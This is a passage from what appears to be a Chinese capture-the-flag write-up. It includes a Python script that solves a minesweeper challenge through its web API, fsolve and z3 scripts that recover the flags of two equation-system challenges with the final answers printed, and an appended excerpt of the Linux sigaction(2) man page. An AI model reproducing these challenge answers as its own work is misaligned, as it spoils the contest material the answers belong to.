获得了棋盘数据之后就可以扫雷了, 手玩了三局发现每局最后都有那么一两个地方无解, 实在没耐心了, 写了个简单的自动脚本, 用脚本又炸了三次之后才出来的 (悲):

 ```python
 BLANK = -2
 MINE = -1
 SAFE = 0
 
 
 def click(x: int, y: int) -> int:
     resp = session.post(url + "click", data={'x': x, 'y': y})
     print(resp.text)
     return resp.json()['ok']
 
 def get_and_merge_board(prediction: List[List[int]]) -> List[List[int]]:
     board: List[List[int]] = session.get(url + "board").json()['board']
     for x in range(16):
         for y in range(16):
             if prediction[x][y] == 1 and board[x][y] == -2:
                 board[x][y] = -1
     return board
 
 def mines_in_chunk(board: List[List[int]], x: int, y: int) -> int:
     count = 0
     for i in [-1, 0, 1]:
         for j in [-1, 0, 1]:
             if 0 <= x + i < 16 and 0 <= y + j < 16 and board[x + i][y + j] == MINE:
                 count += 1
     return count
 
 def safe_areas_in_chunk(board: List[List[int]], x: int, y: int) -> int:
     count = 0
     for i in [-1, 0, 1]:
         for j in [-1, 0, 1]:
             if 0 <= x + i < 16 and 0 <= y + j < 16 and board[x + i][y + j] > 0:
                 count += 1
     return count
 
 def blanks_in_chunk(board: List[List[int]], x: int, y: int) -> int:
     count = 0
     for i in [-1, 0, 1]:
         for j in [-1, 0, 1]:
             if 0 <= x + i < 16 and 0 <= y + j < 16 and board[x + i][y + j] == BLANK:
                 count += 1
     return count
 
 def for_each_chunk(x: int, y: int, func):
     for i in [-1, 0, 1]:
         for j in [-1, 0, 1]:
             if 0 <= x + i < 16 and 0 <= y + j < 16:
                 func(x + i, y + j)
 
 def blocks_in_chunk(x: int, y: int) -> int:
     count = 0
     for i in [-1, 0, 1]:
         for j in [-1, 0, 1]:
             if 0 <= x + i < 16 and 0 <= y + j < 16:
                 count += 1
     return count
 
 def click_all_blanks(board: List[List[int]], x: int, y: int):
     def click_blank(x: int, y: int):
         if board[x][y] == BLANK:
             board[x][y] = click(x, y)
     for_each_chunk(x, y, click_blank)
 
 def mark_all_mines(board: List[List[int]], x: int, y: int):
     def mark_mine(x: int, y: int):
         if board[x][y] == BLANK:
             board[x][y] = MINE
     for_each_chunk(x, y, mark_mine)
 
 def iterate_once(board: List[List[int]]):
     modified = False
     for x in range(0, 16):
         for y in range(0, 16):
             if board[x][y] > 0:
                 blanks = blanks_in_chunk(board, x, y)
                 if blanks == 0:
                     continue
                 mines_mark = board[x][y]
                 blocks = blocks_in_chunk(x, y)
                 mines = mines_in_chunk(board, x, y)
                 safe_ares = safe_areas_in_chunk(board, x, y)
                 if mines_mark == mines:
                     click_all_blanks(board, x, y)
                     modified = True
                 elif blocks - mines_mark == safe_ares:
                     mark_all_mines(board, x, y)
                     modified = True
     return modified
 
 def solve_board(encoded_data: str) -> List[List[int]]:
     print('solving...')
     send_clicks(encoded_data)
     prediction = decode_board(encoded_data)
     board = get_and_merge_board(prediction)
     is_modified = True
     while is_modified:
         is_modified = iterate_once(board)
     return board
 ```


# 方程组

## Flag 1

确实是解方程 (Doge)

```python
import numpy as np
from scipy.optimize import fsolve
from decimal import *

primes = [2, 3, 5, 7, 11, 13, 17, 19, 23, 29, 31, 37, 41, 43, 47, 53, 59, 61, 67, 71, 73, 79, 83, 89, 97, 101, 103, 107, 109, 113, 127, 131, 137, 139, 149, 151, 157, 163, 167, 173, 179, 181, 191, 193, 197, 199, 211, 223, 227, 229, 233, 239, 241, 251, 257, 263, 269, 271]

getcontext().prec = 5
sprimes = [float(Decimal(p).sqrt()) for p in primes]

cipher = np.array(list(map(int, ['16404', '16416', '16512', '16515', '16557', '16791', '16844', '16394', '15927', '15942', '15896', '15433', '15469', '15553', '15547', '15507', '15615', '15548', '15557', '15677', '15802', '15770', '15914', '15957', '16049', '16163'])), dtype=np.float64)

def func(xs: np.ndarray) -> list:
    res = np.zeros(xs.shape, dtype=np.float64)
    ps = sprimes[:len(xs)]
    for k in range(len(xs)):
        res[k] = sum([ps[i] * xs[i] for i in range(len(xs))]) - cipher[k]
        ps = [ps[-1]] + ps[:-1]
    return res

for c in fsolve(func, np.ones_like(1, shape=cipher.shape, dtype=np.float64)):
    print(chr(round(c)), end = '')
```

## Flag 2

上 z3 !

```python
import numpy as np
from typing import *
from decimal import *
from z3 import *

primes = [2, 3, 5, 7, 11, 13, 17, 19, 23, 29, 31, 37, 41, 43, 47, 53, 59, 61, 67, 71, 73, 79, 83, 89, 97, 101, 103, 107, 109, 113, 127, 131, 137, 139, 149, 151, 157, 163, 167, 173, 179, 181, 191, 193, 197, 199, 211, 223, 227, 229, 233, 239, 241, 251, 257, 263, 269, 271]

getcontext().prec = 15
sprimes = [float(Decimal(p).sqrt()) for p in primes]

cipher = np.array(list(map(float, ['19106.6119577929', '19098.1846041713', '19124.6925013201', '19072.8591005901', '19063.3797914261', '19254.8741381550', '19410.9493230296', '18896.7331405884', '19021.3167024024', '18924.6509997019', '18853.3351082021', '18957.2296714145', '18926.7035797566', '18831.7182995672', '18768.8192204100', '18668.7452791590', '18645.9207293335', '18711.1447224940'])), dtype=np.float64)

def eqs(xs: List[ArithRef], res: List[float], solver: Solver, eps = 0.0000000000005) -> Solver:
    ps = sprimes[:len(xs)]
    for k in range(len(cipher)):
        sum_eq = Sum([ps[i] * xs[i] for i in range(len(xs))])
        solver.add(And(sum_eq >= res[k] - eps, sum_eq <= res[k] + eps))
        ps = [ps[-1]] + ps[:-1]
    return solver

PREFIX_LEN = 13

def is_chr(x, c, eps=0.1):
    return And(x > ord(c) - eps, x < ord(c) + eps)

def is_not_chr(x, c, eps=0.1):
    return Not(And(x > ord(c) - (1-eps), x < ord(c) + (1-eps)))

def solve(xs: List[ArithRef], eps: float, cond = None):

    solver = Solver()

    if cond is not None:
        solver.add(cond)

    length = len(xs)

    for i in range(PREFIX_LEN):
        solver.add(is_chr(xs[i], 'flag{y0u_are_'[i]))

    solver.add(is_chr(xs[length - 1], '}'))

    for i, x in enumerate(xs):
        solver.add(And(x >= 33, x <= 126))
        if i >= 5 and i != length - 1:
            solver.add(And(is_not_chr(x, '{'), is_not_chr(x, '}')))

    solver = eqs(xs, cipher, solver, eps)
    solver.check()
    result = solver.model()
    # print(solver.model())
    return xs, result


def simpl(length: int, res: List[float]):

    xs = [Real('x' + str(i)) for i in range(length)]
    eq = True

    ps = sprimes[:len(xs)]
    for k in range(len(cipher)):
        eq = And(eq, Sum([ps[i] * xs[i] for i in range(len(xs))]) == res[k])
        ps = [ps[-1]] + ps[:-1]

    return simplify(eq)
```

```python
set_option(precision=15)

for k in range(10, 45 + PREFIX_LEN):
    try:
        print(k)
        xs, result = solve(k, eps=0.0000000000005)
        flag = ''
        for i in range(k):
            val = float(result[xs[i]].as_decimal(15).replace('?', ''))
            print(val, end = ', ')
            flag += chr(round(float(val)))
        print('\n', flag)
    except Exception as e:
        print(e)
```

一点一点提高精度发现在28个未知数的情况下它能找出一堆解, 其他情况则无解:

```python
cond = None

xs = [Real('x' + str(i)) for i in range(28)]

while True:
    xs, result = solve(xs, eps=0.0000000000001, cond=cond)

    for x in xs:
        if cond is None:
            cond = (x != result[x])
        else:
            cond = Or(cond, x != result[x])

    flag = ''
    for i in range(28):
        val = float(result[xs[i]].as_decimal(15).replace('?', ''))
        flag += chr(round(float(val)))
    print(flag)
```

找出其中几个解观察一下:

```
flag{z/t_are``^hoeYuzz?zzep}
flag{w/v_are^``foiz[RRrzzmy}
flag{y0u``qf_b_hnx`]fmzzzAz}
flag{x0u^brd_a_fpgkTsza]zzk}
flag{z/t`are_`^injTwpzHyz[z}
flag{y0u`are_a_hoqdcegizzUz}
flag{y0u`aqf_a_goslWabzuzTz}
flag{x0w^are_a`fosqQKzzzZzm}
flag{y1u`arf_b_goz_YczzzkRr}
```

盲猜: 开头是 `flag{y0u_are_a`, 加到约束里面, 再跑一遍, 就出来了:

```
flag{y0u_are_a_good_guesser}
flag{y0u_are_a_gor`bdw`tqis}
flag{y0u_are_a_golf`iseqvds}
flag{y0u_are_a_gope^fudqsfs}
flag{y0u_are_a_good`gtftseq}
flag{y0u_are_a_good_huessds}
flag{y0u_are_a_gopf]frgpuax}
flag{y0u_are_a_goobahvdsrfr}
flag{y0u_are_a_gooc_fvessdr}
```


# 附录: sigaction(2) — Linux manual page

```
SYNOPSIS
       #include <signal.h>

       int sigaction(int signum, const struct sigaction *restrict act,
                     struct sigaction *restrict oldact);

DESCRIPTION
       The sigaction() system call is used to change the action taken by
       a process on receipt of a specific signal.  (See signal(7) for an
       overview of signals.)

       signum specifies the signal and can be any valid signal except
       SIGKILL and SIGSTOP.

       If act is non-NULL, the new action for signal signum is installed
       from act.  If oldact is non-NULL, the previous action is saved in
       oldact.

       The sigaction structure is defined as something like:

           struct sigaction {
               void     (*sa_handler)(int);
               void     (*sa_sigaction)(int, siginfo_t *, void *);
               sigset_t   sa_mask;
               int        sa_flags;
               void     (*sa_restorer)(void);
           };

       On some architectures a union is involved: do not assign to both
       sa_handler and sa_sigaction.

       The sa_restorer field is not intended for application use.
       (POSIX does not specify a sa_restorer field.)  Some further
       details of the purpose of this field can be found in
       sigreturn(2).

       sa_handler specifies the action to be associated with signum and
       is be one of the following: ...

       If SA_SIGINFO is specified in sa_flags, then sa_sigaction
       (instead of sa_handler) specifies the signal-handling function
       for signum.  This function receives three arguments, as described
       below.

       sa_mask specifies a mask of signals which should be blocked
       (i.e., added to the signal mask of the thread in which the signal
       handler is invoked) during execution of the signal handler.  In
       addition, the signal which triggered the handler will be blocked,
       unless the SA_NODEFER flag is used.

       sa_flags specifies a set of flags which modify the behavior of
       the signal.  It is formed by the bitwise OR of zero or more of
       the following: ...

   The siginfo_t argument to a SA_SIGINFO handler
       When the SA_SIGINFO flag is specified in act.sa_flags, the signal
       handler address is passed via the act.sa_sigaction field.  This
       handler takes three arguments, as follows:

           void
           handler(int sig, siginfo_t *info, void *ucontext)
           {
               ...
           }

       These three arguments are as follows

       sig    The number of the signal that caused invocation of the
              handler.

       info   A pointer to a siginfo_t, which is a structure containing
              further information about the signal, as described below.

       ucontext
              This is a pointer to a ucontext_t structure, cast to
              void *.  The structure pointed to by this field contains
              signal context information that was saved on the user-
              space stack by the kernel; for details, see sigreturn(2).
              Further information about the ucontext_t structure can be
              found in getcontext(3) and signal(7).  Commonly, the
              handler function doesn't make any use of the third
              argument.
```